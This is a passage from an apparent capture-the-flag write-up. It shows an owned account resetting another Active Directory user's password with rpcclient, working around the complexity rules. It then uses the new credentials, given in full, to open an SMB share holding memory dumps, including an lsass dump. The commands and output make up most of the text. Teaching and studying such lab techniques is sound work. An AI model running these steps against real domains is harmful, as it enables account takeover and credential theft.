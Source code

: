 So the support user we own can reset audit2020's password.<br>
[https://malicious.link/post/2017/reset-ad-user-password-with-linux/](https://malicious.link/post/2017/reset-ad-user-password-with-linux/) <br>
According to this article, we can change the password of a non-admin account using rpcclient ,so we should be able to change the password of the audit 2020 account and we might be able to see the forensic share now.
```shell
rpcclient $> setuserinfo2 
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER
rpcclient $> setuserinfo2 audit2020 23 'hello1234567'
result: NT_STATUS_PASSWORD_RESTRICTION
result was NT_STATUS_PASSWORD_RESTRICTION
rpcclient $> setuserinfo2 audit2020 23 'hello123456#'
rpcclient $> 
```
As you can see if i set the password to just an alphanumeric value I get NT_STATUS_PASSWORD_RESTRICTION, this is because DOMAIN_PASSWORD_COMPLEX=1 for audit2020,
So we have to set a password with atleast 1 special character and minimum length is 7 since min_password_length      : 0x0007 (7).
Now let's look at the forensic smb share, credentials are audit2020:hello123456#
```shell
sid@kali:~$ smbclient -U 'audit2020'  //10.10.10.192/forensic
Enter WORKGROUP\audit2020's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 18:33:16 2020
  ..                                  D        0  Sun Feb 23 18:33:16 2020
  commands_output                     D        0  Sun Feb 23 23:44:37 2020
  memory_analysis                     D        0  Fri May 29 01:58:33 2020
  tools                               D        0  Sun Feb 23 19:09:08 2020
cd 
                7846143 blocks of size 4096. 3877722 blocks available
smb: \> cd memory_analysis\
smb: \memory_analysis\> ls
  .                                   D        0  Fri May 29 01:58:33 2020
  ..                                  D        0  Fri May 29 01:58:33 2020
  conhost.zip                         A 37876530  Fri May 29 01:55:36 2020
  ctfmon.zip                          A 24962333  Fri May 29 01:55:45 2020
  dfsrs.zip                           A 23993305  Fri May 29 01:55:54 2020
  dllhost.zip                         A 18366396  Fri May 29 01:56:04 2020
  ismserv.zip                         A  8810157  Fri May 29 01:56:13 2020
  lsass.zip                           A 41936098  Fri May 29 01:55:08 2020
  mmc.zip                             A 64288607  Fri May 29 01:55:25 2020
  RuntimeBroker.zip                   A 13332174  Fri May 29 01:56:24 2020
  ServerManager.zip                   A 131983313  Fri May 29 01:56:49 2020
  sihost.zip                          A 33141744  Fri May 29 01:57:00 2020
  smartscreen.zip                     A 33756344  Fri May 29 01:57:11 2020
  svchost.zip                         A 14408833  Fri May 29 01:57:19 2020
  taskhostw.zip                       A 34631412  Fri May 29 01:57:30 2020
  winlogon.zip                        A 14255089  Fri May 29 01:57:38 2020
  wlms.zip                            A  4067425  Fri May 29 01:57:44 2020
  WmiPrvSE.zip                        A 18303252  Fri May 29 01:57:53 2020

                7846143 blocks of size 4096. 3877722 blocks available
smb: \memory_analysis\> get ctfmon.zip
parallel_read returned NT_STATUS_IO_TIMEOUT

```
 No matter which file i try to download it says NT_STATUS_TO_TIMEOUT, Found this article online, 
 [https://support.zadarastorage.com/hc/en-us/articles/213024986-How-to-Mount-a-SMB-Share-in-Ubuntu](https://support.zadarastorage.com/hc/en-us/articles/213024986-How-to-Mount-a-SMB-Share-in-Ubuntu) <br>
 This is  a bit unstable, but after some tries
